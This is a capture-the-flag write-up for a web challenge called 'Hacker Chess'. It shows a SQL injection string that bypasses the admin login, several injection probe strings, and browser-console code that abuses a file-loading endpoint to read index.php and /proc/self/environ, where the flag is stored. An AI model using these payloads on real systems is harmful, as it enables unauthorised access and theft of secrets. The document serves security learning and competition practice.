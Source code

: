 # Hacker Chess
[link](https://hackerchess-web.h4ck.ctfcompetition.com/)



## Step 1
We noticed the following script while looking at the source of the page:
```
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

## Step 2 
Considering php zhr injection then doppping for something simpler due to the challenge hint suggesting keeping it simple. 
> A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.
>
>Hint: Don't make this game harder than it needs to be.

## Step 3 
Discovered the [NASTER LOGIN](https://hackerchess-web.h4ck.ctfcompetition.com/admin.php) link at the bottom right of the page.

## Step 4
Tried out different user/password combinations with [Burp Suite](https://portswigger.net/burp) checking the response bite size to see when we get a significantly different response. 
We realised a simple SQL Injection gets us passed the login to the Settings page
Injection string used for both `username` and `password`: 
```
' OR '' = '
```

## Step 5 
We saw that in the page we got two inputs, "Thinking Time" and "AI Queen Cheats"so we decided to use [Burp Suite](https://portswigger.net/burp) again to intercept and replay the requests to the admin portal to see if we can get something from injections.

![admin settings page](admin_settings_page.png)

We noticed the + was replaced by a white space and that intrigued us. Unfortunately that was a red herring.
We tried: 
```
1
0
-1
{{1+1}}
{{1-1}}
$(1+1)
;
${{<%[%'"}}%\.
```
Nothing gave any significant results so we went back to the page with the chess game. 

## Step 5
We started exploring the game and realised it has dificulty levels. We again tried to inject values, but that was not successful. 

## Step 6 
We thought, we maybe actually need to play and win but none of us were good at chess, so that did not last long.

## Step 7
We noticed that there are two `GET`parameters that are set during the move. The first called  `move_start` that has the starting cell and `move_end` that contains the base64 encoding of the start position and end together with additional text that was not obviously useful/meaningfull. 

## Step 8 
We explored typing in and encoding impossibile moves, but those did not do anything. When duplicating the entire variable value, the chess set stopped showing and we notice an interesting comment `<!-- XXX : Debug remove this -->`. 

## Step 9
When checking if there is another state besides the `GET` variables we noticed that a file called `baseboard.fen` is being passed on fromthe server. On inspection we realised that it contains the state of the board. 
```
rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1
```

## Step 10
We wanted to create a new state for us intead of the server `baseboard.fen` but that was not useful since we could not put the file on the server. If we cannot put the file on the server, we decide to explore what other files exist.

## Step 11
We tried out different files and we got the default apache page not found that leaks the opperating system and Apache version.
> Not Found
>
> The requested URL was not found on this server.
> 
> Apache/2.4.41 (Ubuntu) Server at hackerchess-web.h4ck.ctfcompetition.com Port 1337

## Step 12
We shortly considered looking into the `Apache/2.4.41` vulnerabilities, but decided to keep it simple.

## Step 13
We noticed that we can retrieve the file content from the server, so we thought of getting the `index.php` by executing the following in the browsers console: 
```
const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'index.php')

xhr.open('POST', url, true)
xhr.send(formData);
xhr.request
```

## Step 14
In the `index.php` page we noticed there was an interesting code snippet:
```
    $movei = unserialize(base64_decode($_GET['move_end']));
    if ($chess->turn == \"b\") {
      #XXX: this should never happen.
      $chess = init_chess();
      $_SESSION['board'] = serialize($chess);
      die('Invalid Board state. Refresh the page');
    }
    echo \"<!-- XXX : Debug remove this \".$movei. \"-->\";
```
We can get the value of `$movei` returned in the browser as part of the html comment.

## Step 15

We then noticed the success condition and that the value of the flag is stored as an environmental variable.
```
    echo $output->render($chess);
    if ($chess->inCheckmate()) {
        if ($chess->turn != "b") {
            echo '<h1>You lost! Game Over!</h1>';
        } else {
            echo "<h1>ZOMG How did you defeat my AI :(. You definitely cheated. Here's your flag: ". getenv('REDIRECT_FLAG') . "</h1>";
        }
    }
```

## Step 16
Since we knew from Step 11 that the server is running Ubntu with Apache and one of the group suggested retrieveving the environment variable file. This is possible since in Ubuntu everything is a file.
```
  const url = "."
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', '/proc/self/environ')

  xhr.open('POST', url, true)
  xhr.send(formData);

xhr.response
```
The run returns `500` status code and the content of the environment variables in the response including the `REDIRECT_FLAG`. 

## Step 17
We visited the URL listed in the `REDIRECT_FLAG` and the challenge got marked as completed. 🎉

# Alternative 2 

## Step 18
We still believe there would be a way to exploit the html comment and get the flag that way. See `Step 14`.


